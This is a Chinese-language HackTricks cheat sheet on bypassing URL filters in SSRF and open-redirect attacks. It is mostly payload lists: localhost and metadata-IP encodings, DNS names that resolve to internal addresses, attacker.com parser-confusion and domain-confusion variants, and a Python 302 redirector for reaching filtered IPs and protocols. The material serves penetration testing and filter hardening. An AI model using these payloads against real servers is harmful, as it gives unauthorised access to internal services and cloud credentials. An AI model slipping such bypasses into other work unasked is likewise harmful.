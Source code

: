# URL格式绕过

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

**Try Hard Security Group**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

*** 

### 本地主机
```bash
# Localhost
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://127.000000000000000.1
http://0
http:@0/ --> http://localhost/
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# Octal Bypass
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# https://www.silisoftware.com/tools/ipconverter.php

# Malformed and rare
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS to localhost
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```
![](<../../.gitbook/assets/image (649) (1) (1).png>)

**Burp扩展** [**Burp-Encode-IP**](https://github.com/e1abrador/Burp-Encode-IP) 实现了IP格式绕过。

### 域名解析器
```bash
https:attacker.com
https:/attacker.com
http:/\/\attacker.com
https:/\attacker.com
//attacker.com
\/\/attacker.com/
/\/attacker.com/
/attacker.com
%0D%0A/attacker.com
#attacker.com
#%20@attacker.com
@attacker.com
http://169.254.1698.254\@attacker.com
attacker%00.com
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ
```

```
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾
⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗
⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰
⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ
Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ
ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```
### 域名混淆
```bash
# Try also to change attacker.com for 127.0.0.1 to try to access localhost
# Try replacing https by http
# Try URL-encoded characters
https://{domain}@attacker.com
https://{domain}.attacker.com
https://{domain}%6D@attacker.com
https://attacker.com/{domain}
https://attacker.com/?d={domain}
https://attacker.com#{domain}
https://attacker.com@{domain}
https://attacker.com#@{domain}
https://attacker.com%23@{domain}
https://attacker.com%00{domain}
https://attacker.com%0A{domain}
https://attacker.com?{domain}
https://attacker.com///{domain}
https://attacker.com\{domain}/
https://attacker.com;https://{domain}
https://attacker.com\{domain}/
https://attacker.com\.{domain}
https://attacker.com/.{domain}
https://attacker.com\@@{domain}
https://attacker.com:\@@{domain}
https://attacker.com#\@{domain}
https://attacker.com\anything@{domain}/
https://www.victim.com(\u2044)some(\u2044)path(\u2044)(\u0294)some=param(\uff03)hash@attacker.com

# On each IP position try to put 1 attackers domain and the others the victim domain
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/

#Parameter pollution
next={domain}&next=attacker.com
```
### 路径和扩展名绕过

如果要求URL必须以路径或扩展名结尾，或必须包含路径，您可以尝试以下绕过方法之一：
```
https://metadata/vulerable/path#/expected/path
https://metadata/vulerable/path#.extension
https://metadata/expected/path/..%2f..%2f/vulnerable/path
```
### Fuzzing

工具[**recollapse**](https://github.com/0xacb/recollapse)可以生成给定输入的变体，尝试绕过使用的正则表达式。查看[**此文章**](https://0xacb.com/2022/11/21/recollapse/)以获取更多信息。

### 通过重定向绕过

可能服务器正在**过滤 SSRF 的原始请求**，但**不过滤**对该请求的可能**重定向**响应。\
例如，一个容易受到 SSRF 影响的服务器：`url=https://www.google.com/` 可能正在**过滤 url 参数**。但如果您使用[python 服务器响应 302](https://pastebin.com/raw/ywAUhFrv)到您想要重定向的位置，您可能能够**访问被过滤的 IP 地址**，如 127.0.0.1，甚至被过滤的**协议**，如 gopher。\
[查看此报告。](https://sirleeroyjenkins.medium.com/just-gopher-it-escalating-a-blind-ssrf-to-rce-for-15k-f5329a974530)
```python
#!/usr/bin/env python3

#python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
print("Usage: {} <port_number> <url>".format(sys.argv[0]))
sys.exit()

class Redirect(BaseHTTPRequestHandler):
def do_GET(self):
self.send_response(302)
self.send_header('Location', sys.argv[2])
self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```
## 解释的技巧

### 反斜杠技巧

_backslash-trick_ 利用了[WHATWG URL标准](https://url.spec.whatwg.org/#url-parsing)和[RFC3986](https://datatracker.ietf.org/doc/html/rfc3986#appendix-B)之间的差异。虽然RFC3986是URI的通用框架，WHATWG专门针对Web URL，并被现代浏览器采用。关键区别在于WHATWG标准将反斜杠（`\`）视为等同于正斜杠（`/`），影响了URL的解析方式，特别是在URL中从主机名到路径的转换。

![https://bugs.xdavidhu.me/assets/posts/2021-12-30-fixing-the-unfixable-story-of-a-google-cloud-ssrf/spec\_difference.jpg](https://bugs.xdavidhu.me/assets/posts/2021-12-30-fixing-the-unfixable-story-of-a-google-cloud-ssrf/spec\_difference.jpg)

### 其他混淆

![https://claroty.com/2022/01/10/blog-research-exploiting-url-parsing-confusion/](<../../.gitbook/assets/image (629).png>)

图片来源：[https://claroty.com/2022/01/10/blog-research-exploiting-url-parsing-confusion/](https://claroty.com/2022/01/10/blog-research-exploiting-url-parsing-confusion/)

## 参考资料

* [https://as745591.medium.com/albussec-penetration-list-08-server-side-request-forgery-ssrf-sample-90267f095d25](https://as745591.medium.com/albussec-penetration-list-08-server-side-request-forgery-ssrf-sample-90267f095d25)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md)

**Try Hard Security Group**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的公司广告或下载HackTricks的PDF，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS Family**](https://opensea.io/collection/the-peass-family)，我们独家NFT的收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
